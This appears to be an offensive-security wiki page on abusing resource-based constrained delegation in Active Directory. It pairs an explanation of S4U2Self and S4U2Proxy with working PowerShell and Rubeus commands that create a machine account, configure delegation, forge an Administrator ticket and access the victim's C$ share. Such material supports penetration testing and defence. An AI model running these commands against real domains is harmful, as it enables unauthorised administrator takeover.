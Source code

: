 # Resource-based Constrained Delegation

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** \(_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_\) **\*\*can set the \_**msDS-AllowedToActOnBehalfOfOtherIdentity\*\*\_ \(In the other forms of Delegation you needed domain admin privs\).

### New Concepts

Back in Constrained Delegation it was told that the _**TrustedToAuthForDelegation**_ flag inside the _userAccountControl_ value of the user is needed to perform a **S4U2Self.** But that's not completely truth.  
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** \(have a SPN\) but, if you **have** _**TrustedToAuthForDelegation**_ the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** \(this is not a vulnerability, it's a feature, apparently\).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** \(“Service A”\). Note that **any** _Admin User_ without any other special privilege can **create** up **\*\*until 10** Computer objects \(**\_**MachineAccountQuota**\_**\) **and set them a** SPN\*\*. So the attacker can just create a Computer object and set a SPN.
2. The attacker configures **resource-based constrained delegation from Service A to the victim host**. 
3. The attacker uses Rubeus to perform a **full S4U attack** \(S4U2Self and S4U2Proxy\) from Service A to Service B for a user **with privileged access to Service B**. 
   1. S4U2Self \(from the SPN compromised/created account\): Ask for a **TGS of Administrator to me** \(Not Forwardable\).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```text
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/b1.png)

```bash
Get-DomainComputer FAKECOMPUTER #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKECOMPUTER$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it work
```

![](../../.gitbook/assets/b2.png)

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER /domain:domain.local
```

This will print the RC4 and AES hashes for that account.  
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

![](../../.gitbook/assets/b3.png)

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.  
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```

![](../../.gitbook/assets/b4.png)

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" caption="" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" caption="" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution\#modifying-target-computers-ad-object" caption="" %}

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" caption="" %}

